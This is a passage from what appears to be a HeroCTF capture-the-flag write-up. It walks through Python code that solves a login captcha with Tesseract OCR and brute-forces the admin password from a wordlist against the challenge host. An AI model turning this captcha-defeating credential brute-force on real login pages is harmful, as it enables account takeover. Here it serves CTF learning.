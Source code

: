```python
elif op1 == 'x' and op2 == 'x':
    resultat = nb1 * nb2 * nb3
```



To finish the process the last step.

```python
payload = {'username': 'admin', 'password': XXXXXXX, 'pincode': resultat}
r2 = requests.post(url, payload, cookies=cookie)

if re.search("Invalid login or password", str(r2.content)):
	print('Mauvais PASSWORD - '+str(nb_passwd))
elif re.search("Invalid pincode", str(r2.content)):
	pass
else:
	print('PASSWORD IS : '+z)
```



To conclude this challenge I put all the code into 3 things :

1. A for loop to use all the password into the wordlist.
2. A while loop to keep using the same password until "Invalid pincode" appear
3. A try ... catch ... to instant reset the code each time Tesseract failed the conversion



The final code.

```python
import base64
import re
from urllib.parse import unquote
import pytesseract
import requests
from PIL import Image

with open('wordlist.txt', 'r') as file:
    passwords = file.read().split()

nb_passwd = 0
finish = False

for z in passwords:
    nb_passwd += 1
    print(z)
    while 1:
        try:

####################################### Captcha Recuperation #######################################

            url = "http://chall3.heroctf.fr:8081/login"
            cookie = dict(session="f8b0c6a0-882e-435a-aa98-9e6f91f21d8b.MtJk-nZ5rJs8agOjjxIgNBeSrCU")

            r = requests.get(url, cookies=cookie)

            img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

            with open("Captcha.png", "wb") as f:
                f.write(base64.b64decode(unquote(img_b64.group(1))))

################################# Calculation of the last used color ##############################

            pixel_color = {}
```